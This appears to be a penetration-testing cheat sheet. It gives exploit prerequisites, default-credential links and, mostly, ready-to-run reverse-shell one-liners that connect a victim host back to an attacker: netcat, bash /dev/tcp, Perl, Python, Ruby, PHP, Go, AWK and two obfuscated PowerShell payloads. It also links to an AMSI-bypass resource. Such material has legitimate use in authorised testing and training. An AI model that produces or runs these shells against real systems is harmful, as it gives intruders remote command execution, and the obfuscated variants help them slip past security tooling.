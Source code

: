 # Pre-requisites for runninging exploits
- Check the version of the operating system.
- Check the software version.
- Check if there is exploit for it (Searchsploit, ExploitDB, Google, etc).
- If you have an exploit, is there a Metasploit Module for it?
# Default Credentials
- https://cirt.net/passwords
- https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
# Reverse Shells
## Sources/Links
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://highon.coffee/blog/reverse-shell-cheat-sheet/
- PayloadsAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md
- Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
- https://github.com/m0rph-1/revshellgen (tool for generating rev shells)
- Shellerator: https://github.com/ShutdownRepo/shellerator

## Most commonly used:
- Netcat: `nc -e /bin/sh 10.0.0.1 1234`
    - when -e is and is not available: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`
- Bash: `bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1`
- Perl: `perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
- Python
    - One Liner: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP ADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
    - Script: Can add to libraries if you have access to edit the libraries. Full source of resources can be found here: https://github.com/infodox/python-pty-shells
        `import os
        import pty
        import socket
        lhost = "192.168.119.111"
        lport = 80
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((lhost, lport))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        os.putenv("HISTFILE",'/dev/null')
        pty.spawn("/bin/bash")
        s.close()`
    - IPv6: `python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' `
- Ruby: `ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`
- Ruby: `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`
- PHP - http://pentestmonkey.net/tools/web-shells/php-reverse-shell
- PHP (local): `/usr/share/webshells/php/php-reverse-shell.php`
- PHP `php -r '$sock=fsockopen("IP ADDRESS",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
- Windows Powershell Oneliner
    - Note: To change the IP Address replace the number values in Check.for.Callback.Connection. To change the port pick your own numeric values to equal the number you want your shell to callback to you.

    `$ezYSZf = & ((Get-Command "New-ScheduledJobOption").name[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Check.for.Callback.Connection".Replace("Check",127).Replace("For",0+255-255).Replace("Callback", 0+234-234).Replace("Connection",0+0+0+1),(443*2-443));
    $VXm = $ezYSZf.GetStream();
    [byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
    while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
    {;
    $Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
    $sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
    $YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
    $sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
    $VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
    };
    Start-Sleep -Seconds 5
    $ezYSZf.Close()`

# Windows Resources
- Powershell: `/usr/share/nishang/Shells`

- Linux Powershell Oneliner
    `$ezYSZf = & (("New-ScheduledJobOption")[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Stay.Off.Ronins.Lawn".Replace("Stay",127).Replace("Off",0+255-255).Replace("Ronins", 0+1-1).Replace("Lawn",0+0+0+1),(443*2-443));
    $VXm = $ezYSZf.GetStream();
    [byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
    while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
    {;
    $Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
    $sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
    $YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
    $sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
    $VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
    };
    $ezYSZf.Close()`
- Golang: `echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go`
- AWK: `awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null`